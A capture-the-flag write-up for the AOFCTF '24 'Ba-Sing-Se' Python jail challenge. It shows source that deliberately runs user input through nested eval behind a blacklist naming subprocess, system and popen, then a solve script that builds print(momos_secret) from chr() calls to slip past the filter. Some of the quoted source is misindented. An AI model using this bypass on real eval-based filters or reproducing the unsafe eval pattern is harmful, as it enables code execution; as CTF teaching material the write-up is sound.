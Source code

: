 ```yaml
---
title: AOFCTF '24 - Misc - Ba-Sing-Se
date: '2024-04-29'
tags: ['misc', 'aofctf', 'pyjail', 'eval-in-eval']
draft: false
summary: Using eval inside an eval to build a python code using chr function
---
```


## Challenge Description

![alt text](/static/writeups/aofctf-24/image-20.png)

## Solution

Ba-Sing-Se was a heavily avatar inspired challenge. The provided source code was:

```py
#!/usr/local/bin/python

""" Purely aesthetics. """
colors = {
    "[BLACK]" : "\033[0;30m",
    "[RED]" : "\033[0;31m",
    "[GREEN]" : "\033[0;32m",
    "[BROWN]" : "\033[0;33m",
    "[BLUE]" : "\033[0;34m",
    "[PURPLE]" : "\033[0;35m",
    "[CYAN]" : "\033[0;36m",
    "[LIGHT_GRAY]" : "\033[0;37m",
    "[DARK_GRAY]" : "\033[1;30m",
    "[LIGHT_RED]" : "\033[1;31m",
    "[LIGHT_GREEN]" : "\033[1;32m",
    "[YELLOW]" : "\033[1;33m",
    "[LIGHT_BLUE]" : "\033[1;34m",
    "[LIGHT_PURPLE]" : "\033[1;35m",
    "[LIGHT_CYAN]" : "\033[1;36m",
    "[WHITE]" : "\033[1;37m",
    "[BOLD]" : "\033[1m",
    "[FAINT]" : "\033[2m",
    "[ITALIC]" : "\033[3m",
    "[UNDERLINE]" : "\033[4m",
    "[BLINK]" : "\033[5m",
    "[NEGATIVE]" : "\033[7m",
    "[CROSSED]" : "\033[9m",
    "[END]" : "\033[0m" }

    def colorize(msg : str, override_color: str = "") -> str:
    if override_color: msg = f"[{override_color.upper()}]" + msg
    for color in colors.items():
        msg = msg.replace(color[0].upper(), color[1])
    msg += colors["[END]"]
    return msg

    def log(msg, level="", show_level=True, *args, **kwargs):
    LEVELS = { "error": "[RED]ERROR", "info": "[BLUE]INFO", "log": "[GREEN]LOG"}
    level = LEVELS[level.lower()] if level in LEVELS.keys() else ""
    if show_level and level: print(f"[{colorize(level)}] - ", end="")
    print(f"{colorize(msg)}", *args, **kwargs)

    def __read__(filename: str, __default: str = "DEFAULT", __raise : bool = False, __show : bool = False) -> str:
    try:
        with open(filename, "r") as f:
            return f.read()
    except FileNotFoundError:
        if __raise:
            log(f"File [RED]{filename}[END] not found. Please contact an administrator.", level="error")
            exit(1)
        return __default
    except Exception as E:
        log(f"An error occurred! ", level="error", end="")
        if __show: log(f"Details: [YELLOW]{E}[END]", show_level=False, end="")
        log("Exiting...", level="error")
        exit(1)

    def __err(msg):
    log("[[RED]ANGRY Aang[END]] - Did you really think the walls would be this easy to penetrate??\n")
    log(colorize(msg, override_color="red"))
    log("The avatar got pretty angry and threw you out!", level="error")
    exit(1)

    def __check__(__str: str, ifexist: str):

    for bk in BLACKLIST_KEYWORDS:
        if bk in __str:
            __err(ifexist)

    for bo in BLACKLIST_OPERATORS:
        if bo in __str:
            __err(ifexist)

    BLACKLIST_KEYWORDS = [
    "import", "from", "for", "eval", "exec", "with", "global", "local",
    "flag", "open", "dict", "ord", "sys", "os", "builtins", "momos_secret",
    "print", "subprocess", "system", "popen", "read", "write", "readline",
    "write", "list", "tuple", "str", "int", "float", "bool", "bytes", "bytearray",
    "memoryview", "set", "frozenset", "range", "complex", "type", "dir", "help",
    "vars", "locals", "globals", "hasattr", "getattr", "setattr", "delattr",
    "issubclass", "isinstance", "callable", "compile", "iter", "ast", 'f"',
    "AOF", "CTF", "base64", "binascii", "is", "not", "and", "or",
    "if", "while", "else", "elif"
    ]

    BLACKLIST_OPERATORS = [
    ">", "|", "=", "<", "()", "{", "}", "[", "]", "_", "-", "/", "\\",
    "*", ",", ".", "&", "%", "!", "@", "#", "$", "^", "?", " ", ":", ";",
    "\"", "'", "~"
    ]


    if __name__ == "__main__":

    avatar_prompt = colorize("[[YELLOW]Avatar Aang[END]]")
    your_prompt = colorize("[[GREEN]You[END]] ")
    avatar = __read__("arts/avatar.art", __default="<Good Avatar Art>")
    desc = __read__("arts/description.txt", __default="<Some descriptive message>")
    angry_avatar = __read__("arts/angry.art", __default="😠")
    confused_avatar = __read__("arts/confused.art", __default="😕")
    momos_secret = __read__("flag.txt", __default="You got the flag.")

    log(colorize(avatar, override_color="yellow"))
    log(colorize(desc))

    log(f"{avatar_prompt} I need your help. Can you help me?")
    try:
        stance = input(your_prompt)
    except KeyboardInterrupt:
        log("You left the avatar hanging [GREEN]:(", level="error")
        exit(1)

    __check__(__str=stance, ifexist=angry_avatar)

    log(colorize(confused_avatar, override_color="green"))
    log(f"{avatar_prompt} Wait, [BLUE]whaaaaaaaaaaaaaaaaaaaaaaaat??")

    log(f"{avatar_prompt} Let me try this as well: [CYAN]{stance}")
    try:
        eval(eval(stance))
        log(f"{avatar_prompt} It, worked??")
    except:
        log(f"{avatar_prompt} This did not work. You made me look like a fool!")
        __err(angry_avatar)
```

Now, the code is pretty simple, it simply blocks the following:

```py
BLACKLIST_KEYWORDS = [
    "import", "from", "for", "eval", "exec", "with", "global", "local",
    "flag", "open", "dict", "ord", "sys", "os", "builtins", "momos_secret",
    "print", "subprocess", "system", "popen", "read", "write", "readline",
    "write", "list", "tuple", "str", "int", "float", "bool", "bytes", "bytearray",
    "memoryview", "set", "frozenset", "range", "complex", "type", "dir", "help",
    "vars", "locals", "globals", "hasattr", "getattr", "setattr", "delattr",
    "issubclass", "isinstance", "callable", "compile", "iter", "ast", 'f"',
    "AOF", "CTF", "base64", "binascii", "is", "not", "and", "or",
    "if", "while", "else", "elif"
    ]

    BLACKLIST_OPERATORS = [
    ">", "|", "=", "<", "()", "{", "}", "[", "]", "_", "-", "/", "\\",
    "*", ",", ".", "&", "%", "!", "@", "#", "$", "^", "?", " ", ":", ";",
    "\"", "'", "~"
    ]
```

> I'm pretty sure there are other solutions that I do not know of.

What's pretty interesting here is:

```py
try:
    eval(eval(stance))
    log(f"{avatar_prompt} It, worked??")
except:
    log(f"{avatar_prompt} This did not work. You made me look like a fool!")
    __err(angry_avatar)
```

`eval` inside an `eval` function. This allowed us to build a python code at runtime; what I mean by that is, if we look at the blocklist, `chr` isn't blocked and inside the BLACKLIST_OPERATORS, `+` isn't blocked either. So that allowed us to build a python code at runtime. But, what python code?, looking at this line:

```py
momos_secret = __read__("flag.txt", __default="You got the flag.")
```

`momos_secret` would contain the flag. So, what we need it, simply write a payload that invokes `print(momos_secret)`. I wrote a simple solve script for this:

```py
#!/usr/bin/env python3

src = "print(momos_secret)"
payload = ""
for i in src: payload += f'chr({ord(i)})+'
payload = payload[:-1]
print(payload)
```

This would print: `chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(109)+chr(111)+chr(109)+chr(111)+chr(115)+chr(95)+chr(115)+chr(101)+chr(99)+chr(114)+chr(101)+chr(116)+chr(41)`

Now, let's picture this:

```py
eval(
    eval(
        chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(109)+chr(111)+chr(109)+chr(111)+chr(115)+chr(95)+chr(115)+chr(101)+chr(99)+chr(114)+chr(101)+chr(116)+chr(41)
    )
)
```

After the first eval call:

```py
eval(
    print(momos_secret)
)
```

Which, in the next run would give us the flag!
